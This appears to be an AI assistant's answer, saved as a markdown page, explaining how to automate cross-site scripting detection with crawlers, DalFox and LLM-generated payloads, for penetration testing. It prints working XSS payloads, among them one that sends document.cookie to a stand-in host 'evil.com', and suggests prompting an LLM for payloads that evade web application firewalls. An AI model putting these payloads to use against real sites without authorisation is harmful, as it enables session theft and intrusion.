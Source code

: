 
To **fully automate XSS detection using AI**, you need to combine **automated scanners** with **AI-powered payload crafting and response analysis**. Here’s how to set it up step-by-step:

---

## ✅ Goal:

> Detect XSS **end-to-end** with minimal manual input, using AI to generate payloads, fuzz inputs, and analyze responses intelligently.

---

## 🔧 Tool Stack Options

|Component|Tool / AI|Purpose|
|---|---|---|
|Crawling|**Hakrawler, Crawlee, Burp Suite**|Discover all URLs and parameters|
|Payload Gen|**PentestGPT, ChatGPT API, BurpGPT**|Create smarter XSS payloads|
|Scanner|**DalFox, XSStrike, ZAP**, **Burp Pro**|Inject payloads, detect reflection|
|AI Analysis|**LLM via API**|Validate if response contains true execution evidence|
|Replay/Validation|**Headless Browser (Puppeteer, Selenium)**|Test if payload triggers in a real browser|

---

## 🔁 Full Automation Flow

### 1. **Crawl Target for Input Points**

```bash
hakrawler -url https://target.com -depth 2 > urls.txt
```

### 2. **Use AI to Craft Custom Payloads**

```bash
# With OpenAI API or PentestGPT:
Input: "Generate XSS payloads that bypass common WAFs, reflect in HTML, JS, and attribute contexts."
```

Example payloads AI might return:

```html
"><svg/onload=alert(1)>
<script>fetch(`//evil.com/${document.cookie}`)</script>
"><img src=x onerror=alert('XSS')>
```

### 3. **Inject Payloads Automatically with DalFox**

```bash
dalfox file urls.txt --custom-payload payloads.txt --output result.json
```

- **DalFox** uses context-aware fuzzing.
- You can automate payload updates using AI-generated ones.

### 4. **Use AI to Analyze Reflected Responses**

- Pipe reflected responses to ChatGPT API:

```python
# Pseudocode
if "<script>" in response and "alert" in payload:
    check_context(response)
    ask_llm("Is this an executable XSS context?")
```

### 5. **Headless Browser Execution (Optional but Strongest)**

```bash
# Validate final candidates using Puppeteer
puppeteer.open(response.url)
check_if_alert_triggered()
```

---

## 🔄 Alternative: Pre-built Solutions That Combine All

### 🔹 **XBOW.AI** _(Enterprise Only)_

- Fully autonomous AI attacker (ranked #1 on HackerOne in June 2025)
- Not consumer-grade.

### 🔹 **Project AI-AST (AI for AppSec)**

- Experimental GitHub projects combining GPT + ZAP or Burp

---

## 🧠 DIY Open-Source AI Automation (Your Own XBOW Lite)

1. **Use DalFox or ZAP as the engine**
2. **Inject AI-crafted payloads** dynamically
3. **Use Puppeteer/Selenium for final execution test**
4. **Build AI layer for smart filtering and prioritization**

---

## ✅ Summary

|Step|Tool|
|---|---|
|Crawl|Hakrawler, Burp|
|Payload Generation|ChatGPT, PentestGPT|
|Injection & Scanning|DalFox, XSStrike, ZAP|
|Context Analysis|LLM API (ChatGPT)|
|Execution Testing|Puppeteer, Selenium|

---

Do you want a **ready-to-run Python script** that does all this automatically using GPT and DalFox?